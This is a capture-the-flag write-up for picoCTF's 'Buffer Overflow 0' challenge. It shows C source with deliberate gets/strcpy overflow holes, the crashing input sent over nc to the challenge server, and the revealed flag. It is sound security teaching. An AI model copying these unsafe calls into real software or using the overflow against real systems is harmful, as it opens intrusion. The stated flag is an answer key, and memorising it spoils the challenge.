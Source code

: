 ### Buffer Overflow 0 Writeup

#### Challenge Name: Buffer Overflow 0

---

#### Challenge Description:

We are provided with a binary file and a C source code for analysis. The program has a vulnerability that allows a buffer overflow attack.

C Source Code:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

---

#### Solution:

1. **Analyze the Vulnerability**:
   - The program uses `gets(buf1)` and `strcpy(buf2, input)`, both of which are vulnerable to buffer overflow attacks.
   - The `buf2` buffer has only 16 bytes, meaning input larger than this will overwrite adjacent memory.

2. **Understanding the Exploit**:
   - By overflowing the buffer, we can trigger the `sigsegv_handler` function, which prints the flag stored in memory.
   - The `signal(SIGSEGV, sigsegv_handler)` line sets up the signal handler for segmentation faults.

3. **Exploitation**:
   - Connect to the provided service using `nc`:
     ```
     nc saturn.picoctf.net 63056
     ```
   - Input a sequence of 20 characters (e.g., `AAAAAAAAAAAAAAAAAAAA`):
     ```
     Input: AAAAAAAAAAAAAAAAAAAA
     ```
   - The segmentation fault is triggered, and the flag is printed.

4. **Flag Output**:
   ```
   picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
   ```

---

#### Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```
